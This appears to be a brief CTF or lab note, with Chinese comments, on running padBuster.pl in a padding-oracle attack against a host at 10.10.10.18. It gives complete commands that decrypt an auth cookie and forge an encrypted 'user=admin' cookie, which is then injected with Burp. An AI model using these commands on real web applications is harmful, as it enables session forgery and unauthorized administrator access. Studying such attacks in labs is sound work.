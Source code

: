 #### padBuster.pl

Use: padBuster.pl URL EncryptedSample BlockSize [options]

```
Padding Oracle -- 填充oracle解密：
perl padBuster.pl http://10.10.10.18 zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e -cookies auth=zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e 8 -encoding 0

填充oracle加密
perl padBuster.pl http://10.10.10.18 zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e -cookies auth=zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e 8 -encoding 0 -plaintext user=admin

当获得admin加密后，获得了cookies字符串。用burp修改包。
```

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/3.PNG)

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/4.PNG)
